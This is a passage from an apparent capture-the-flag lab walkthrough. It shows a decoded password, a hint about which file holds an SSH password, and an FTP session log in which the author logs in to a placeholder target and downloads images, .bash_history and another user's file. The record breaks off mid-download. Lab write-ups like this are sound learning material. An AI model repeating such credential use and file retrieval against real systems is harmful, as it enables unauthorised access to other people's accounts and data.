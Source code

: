 <br>
<p>Used CyBerChef to decode it.</p>

![image](https://github.com/user-attachments/assets/24208804-9ae1-4f53-8657-9b7e044d1bc5)

<pre><code>!#th3h00d
</code></pre>

<br>

> 1.5. <em>what is the file name with SSH password?</em><br><a id='6'></a>
>> <code><strong>shado</strong></code>

<pre><code>~# ftp [Target_IP]
Connected to [Target_IP].
220 (vsFTPd 3.0.2)
Name ([Target_IP]:root): vigilante
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 May 05  2020 .
drwxr-xr-x    4 0        0            4096 May 01  2020 ..
-rw-------    1 1001     1001           44 May 01  2020 .bash_history
-rw-r--r--    1 1001     1001          220 May 01  2020 .bash_logout
-rw-r--r--    1 1001     1001         3515 May 01  2020 .bashrc
-rw-r--r--    1 0        0            2483 May 01  2020 .other_user
-rw-r--r--    1 1001     1001          675 May 01  2020 .profile
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
226 Directory send OK.
ftp> get Leave_me_alone.png
local: Leave_me_alone.png remote: Leave_me_alone.png
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for Leave_me_alone.png (511720 bytes).
226 Transfer complete.
511720 bytes received in 0.00 secs (117.5371 MB/s)
ftp> get Queen's_Gambit.png
local: Queen's_Gambit.png remote: Queen's_Gambit.png
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for Queen's_Gambit.png (549924 bytes).
226 Transfer complete.
549924 bytes received in 0.01 secs (102.5114 MB/s)
  ftp> get .bash_history
local: .bash_history remote: .bash_history
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .bash_history (44 bytes).
226 Transfer complete.
44 bytes received in 0.00 secs (74.9891 kB/s)
ftp> get .other_user
local: .other_user remote: .other_user
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .other_user (2483 bytes).
226 Transfer complete.
2483 bytes received in 0.00 secs (4.3770 MB/s)
ftp> get aa.jpg
local: aa.jpg remote: aa.jpg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for aa.jpg (191026 bytes).
226 Transfer complete.